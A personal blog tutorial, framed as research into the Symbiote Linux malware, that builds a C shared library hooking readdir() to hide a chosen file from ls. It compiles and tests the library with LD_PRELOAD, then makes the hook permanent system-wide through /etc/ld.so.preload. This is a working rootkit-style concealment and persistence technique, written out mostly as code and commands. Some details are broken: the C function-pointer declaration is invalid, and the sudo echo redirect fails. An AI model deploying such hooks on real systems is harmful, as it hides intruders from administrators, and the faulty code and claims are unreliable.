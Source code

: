 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)"
date: 2022-10-02T21:45:03+03:00
draft: false
---
```


# Overview

Recently I heard about a new malware called [Symbiote](https://blogs.blackberry.com/en/2022/06/symbiote-a-new-nearly-impossible-to-detect-linux-threat), which the researches are calling the "Nearly-Impossible-to-Detect Linux Threat". I was very intrigued by how that malware is being implemented and how it works internally to remain undetected, so naturally I've started to research it. 


I highly advise you to read through these articles first before we begin with the actual post:

 - [Hijack Execution Flow: Dynamic Linker Hijacking](https://attack.mitre.org/techniques/T1574/006/)
 - [What Is the LD_PRELOAD?](https://www.baeldung.com/linux/ld_preload-trick-what-is)
 - [What is a Shared Library?](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

# Implementation 

I decided to implement a very simple alternative of the evasive techniques that this malware uses just as a proof of concept and if you already read the articles that I've linked, it is apparent that we have to implement a shared library, that will override some symbols defined in the Linux Kernel.

What do we need first and how to hide a file from lets say a command like `ls`? With a little bit of investigating of how the `ls` works internally through the [source code](https://github.com/coreutils/coreutils/blob/master/src/ls.c) and the [linux manual page](https://man7.org/linux/man-pages/man1/ls.1.html)
We can see that internally we have a function that is called `print_dir`. I've truncated the comments of the original source code.

 ```c
 ...
static void
print_dir (char const *name, char const *realname, bool command_line_arg)
...
 ```


If we continue further down the function we can see the loop that actually iterates over the files

 ```c
...
  while (true)
    {
      errno = 0;
      next = readdir (dirp); // Here we can see that the loop iterates over readdir as long
      // as the pointer that readdir returns isn't null and the errno != 0
      if (next)
        {
          if (! file_ignored (next->d_name)) // we can see here that it the filename is
          // taken from the next variable, lets look through the source code of `readdir`
            {
      ...
```
Let's confirm that by invoking `nm` this will show us the dynamic symbols that are being loaded from shared libs.

```console
$ nm -D /usr/bin/ls | grep "readdir"
                 U readdir@GLIBC_2.2.5
```

Now I concluded that I need to search into the source code of `readdir` which is located [here](https://github.com/torvalds/linux/blob/master/fs/readdir.c) and the [linux manual page](https://man7.org/linux/man-pages/man3/readdir.3.html). The description more or less describes exactly what we concluded from the source code of `ls.c`. Lets see where we set that `d_name` variable.

```c
#include <dirent.h>

struct dirent *readdir(DIR *dirp); // Signature of the readdir
```

```c
struct dirent {
    ino_t          d_ino;       /* Inode number */
    off_t          d_off;       /* Not an offset; see below */
    unsigned short d_reclen;    /* Length of this record */
    unsigned char  d_type;      /* Type of file; not supported
                                    by all filesystem types */
    char           d_name[256]; /* Null-terminated filename */
};
```

> ⚠️ This reverse engineering/looking up the code might be a little bit tricky because of the different implementations of the `dirent` structure, if you look through some other source codes you may look at some slightly different structures. In this case the number of chars in the array is 256 but that might change to some other values. And you can always count that `d_name` will exists since this field must be implemented on all POSIX systems.

Alright, let's start implementing our own function `readdir` that we will wrap the original one with. 

```c
/* libhidemyfile.c */
#define _GNU_SOURCE
#include <dirent.h> // Including the Directory Entry structure
// The dynamic linking header file so we can use the dlsym
// which will give us the address for the readdir symbol
#include <dlfcn.h>
#include <string.h> // So we can use the strstr

struct dirent *readdir(DIR *dirp) {
    struct *(handle)(DIR *);
    // https://man7.org/linux/man-pages/man3/dlsym.3.html
    // Search for RTLD_NEXT, basically it allow us to wrap
    // the original function
    handle = dlsym(RTLD_NEXT, "readdir")
    struct dirent *dp;

    // Iterating over the return values of our original `readdir`
    while((dp = handle(dirp))) {
        // if our `needle`(our file `syl.lys`) is found in the `haystack`(`dp->d_name`)
        // break the loop and go to the next entry, essentially skipping our file.
        if(strstr(dp->d_name, "syl.lys") == 0)
            break;
    }
    return dp;
}
```

This is what our final version of wrapper for `readdir` would look like. Now let's try to compile it.

```console
$ gcc libhidemyfile.c -fPIC -shared -o libhidemyfile.so -ldl
```

Flags: 
- [fPIC](https://stackoverflow.com/questions/5311515/gcc-fpic-option)
- `-shared` creates a shared object
- [-D_GNU_SOURCE flag / _GNU_SOURCE](https://stackoverflow.com/questions/8836707/explanation-of-d-gnu-source-why-to-use-it-and-when) - TLDR: We need it for `RTLD_NEXT`
- [-ldl](https://ubuntuforums.org/archive/index.php/t-1054717.html)


Now that we have shared object (*.so) file lets see how to use it in action.

# How to overwrite the exported symbols? `LD_PRELOAD`

- [What is LD_PRELOAD?](https://man7.org/linux/man-pages/man8/ld.so.8.html)

I advise you to read that first to get a better understanding of how it works.

The next thing that we are going to do is to test our shared library and see if it works. Lets run `ls` with our `libhidemyfile.so` loaded before anything else.

```console
$ ls
libhidemyfile.so  syl.lys
$ LD_PRELOAD=./libhidemyfile.so ls
libhidemyfile.so
```

As you can see we successfully implement a shared library that hides our file from `ls`, and not only that command, every command that uses `readdir` won't be able to list our file as long as we load our shared library. So in that case we must think of a persistent way of how to load it without typing `LD_PRELOAD` in front of every command.

## /etc/ld.so.preload

If you read carefully the man pages for `LD_PRELOAD` you should know that you won't be able to override functions in the standard search directories without properly setting your set-user-ID permissions. 

Instead we are going to use the `/etc/ld.so.preload` which does not suffer from these restrictions. This suffers from requiring root privileges but c'mon.. if you are here you will get those!

We first need to move our shared library file in some root directory, preferably /lib/ since..it is a library.

```console
$ sudo mv ./libhidemyfile.so /lib/libhidemyfile.so
```

Then we just need to place our library dir in `ld.so.preload` file.

```console
$ sudo echo "/lib/libhidemyfile.so" > /etc/ld.so.preload
```

And if everything is good, executing `ls` or any of its aliases will hide our file from the output. Let's verify this by using `ldd`

```console
$ ldd /bin/ls
        linux-vdso.so.1 (0x00007ffc0c8e2000)
        /lib/libhidemyfile.so (0x00007f00e59e4000) <--- Here it is!
        libselinux.so.1 => /lib64/libselinux.so.1 (0x00007f00e5997000)
        libcap.so.2 => /lib64/libcap.so.2 (0x00007f00e598d000)
        libc.so.6 => /lib64/libc.so.6 (0x00007f00e5600000)
        libpcre2-8.so.0 => /lib64/libpcre2-8.so.0 (0x00007f00e58f0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f00e5a0f000)
```

For your convenience I've setup a Docker container that you can use with `ld.so.preload` setup

```console
$ docker run -it --rm sylly/ctf_findme
```

# End

If you reached here, thank you so much for the read. In the next part I will try to "completely" hide it from the system because now if we `cat` it despite not "reading" it in the directory would print us the contents of the file, but that will be the subject of the next post.

[Full Source Code](https://github.com/syrull/evasive_techniques/blob/main/Part_1_readdir/)

# Resources

This post wouldn't be possible without:

- https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
- https://www.exploit-db.com/docs/english/31687-dynamic-link-library-hijacking.pdf
- https://attack.mitre.org/techniques/T1574/006/
- https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/
- https://www.cadosecurity.com/linux-attack-techniques-dynamic-linker-hijacking-with-ld-preload/
- https://blog.jessfraz.com/post/ld_preload/